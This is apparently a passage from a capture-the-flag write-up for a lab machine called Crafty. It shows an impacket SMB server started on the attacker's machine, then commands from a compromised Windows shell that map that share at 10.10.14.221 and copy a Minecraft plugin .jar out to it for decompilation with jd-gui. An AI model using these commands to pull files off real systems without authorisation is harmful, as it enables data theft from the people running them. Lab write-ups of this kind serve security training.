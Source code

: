 It would be useful to transfer it to our machine to analyze it:

**Create SMB server**:

```bash
$ impacket-smbserver -smb2support -username test -password 'test123$!' smbDir $(pwd)
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

**Use the SMB server in Z: and copy the file to this logic partition**:

```powershell
PS C:\users\svc_minecraft\server\plugins> net use z: \\10.10.14.221\smbDir /user:test 'test123$!'
The command completed successfully.

PS C:\users\svc_minecraft\server\plugins> copy .\playercounter-1.0-SNAPSHOT.jar z:
```

Now, as it is a .jar file, we can analyze it with jd-gui:

```bash
$ sudo apt install jd-gui
$ jd-gui playercounter-1.0-SNAPSHOT.jar
```

And we can see the source code:

![Source code of minecraft plugin](/assets/images/Crafty/minecraft_plugin_source_code.png)

